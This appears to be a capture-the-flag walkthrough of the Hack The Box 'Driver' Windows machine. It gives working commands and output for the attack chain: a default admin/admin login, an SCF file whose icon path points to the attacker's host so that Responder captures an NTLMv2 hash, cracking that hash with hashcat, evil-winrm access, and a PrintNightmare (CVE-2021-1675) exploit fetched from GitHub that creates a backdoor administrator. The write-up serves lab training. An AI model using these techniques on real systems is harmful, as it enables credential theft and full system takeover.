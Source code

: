 ```yaml
---
layout: post
title: Hack The Box - Driver
disass:
  - url: /assets/images/htb-driver/driver-1.png
    image_path: /assets/images/htb-driver/driver-1.png
    title: description
  - url: /assets/images/htb-driver/driver--2.png
    image_path: /assets/images/htb-driver/driver--2.png
    title: other
categories:
  - hackthebox
slug: hack-box-driver
tags:
  - cve
  - windows
  - smb
  - printnightmare
---
```

## Challenge description

[https://app.hackthebox.com/machines/Driver](https://app.hackthebox.com/machines/Driver)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1,65535 -- -A -sC

PORT     STATE SERVICE      REASON  VERSION
80/tcp   open  http         syn-ack Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        syn-ack Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-17T02:16:50
|_  start_date: 2022-01-16T20:40:33
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25778/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 15033/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s
```

### SMB Enumeration

All tools I used reported no open share

### Web Enumeration

Browsing to http://driver.htb gets us to a basic authentication login prompt. After trying a couple usual default password, I manage to log in with admin/admin.

After logging in, we get to what looks like a printer admin page.

On the "Firmware Updates" tab, we can upload a file and the page says :

> Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.

It's a pretty clear indication that "someone" or "something" will check the file we upload.

After trying some upload tricks, well, no tricks are needed. There are no restriction what so ever.

## Exploitation && Foothold

Let's read this again:

> Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.

It says that our uploaded file will be placed on their file share which implies that someone will browse the share.

Let's do a SCF file attack

Per [Pentestlab.blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/):

> _However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share._

> _When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash._

```
$ cat << EOF > exploit.scf       
[Shell]
Command=2
IconFile=\\10.10.14.74\share\exploit.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

We can now upload our exploit using the firmware update page and wait for responder to capture hashes:

```
$ sudo responder -w --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[...]

[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:90915e30a4d61b55:EFD5982FC730F2132B289A758EF1AB26:010100000000000017D7481F870BD801DADD4A94693D22FF00000000020000000000000000000000
[...]
```

Now, let's crack it and use the password to log on the target:

```
$ hashcat -a 0 -m 5600 hashes /opt/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

[...]
TONY::DRIVER:a4a1daba2e76ad05:597b6b92e2114645d6f9cf39f3a315ff:01010000000000007212b4fe870bd8011aa3e96919e9f60000000000020000000000000000000000:liltony
[...]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents> more c:\users\tony\desktop\user.txt
(redacted)
```

## Privilege Escalation

To escalate our privileges to administrator, we'll be exploiting a recently discovered vulnerability affecting the Windows print spooler.

First, download the [exploit](https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1) and open a winrm session using Evil-Winrm using the -s option to load the folder containing the exploit.

The exploit script will allow us to create a new admin local user.

```
$ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -O /tmp/driver/CVE-2021-1675.ps1

2022-01-17 08:55:58 (7.46 MB/s) - ‘CVE-2021-1675.ps1’ saved [178561/178561]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents>
```

When Evil-Winrm is opened with the -s (--scripts) option, all the scripts inside the folder becomes directly accessible within the winrm session. Let's load and run the exploit to create our backdoor user.

```
*Evil-WinRM* PS C:\Users\tony\Documents> CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> invoke-nightmare -newuser h3x -newpass h3xp4ss!
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user h3x as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

*Evil-WinRM* PS C:\Users\tony\Documents> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
h3x
The command completed successfully.

*Evil-WinRM* PS C:\Users\tony\Documents> exit
```

Now let's use our new user to get admin privileges.

```
$ evil-winrm -i $ip -u h3x -p h3xp4ss!                         

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\h3x\Documents> more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x
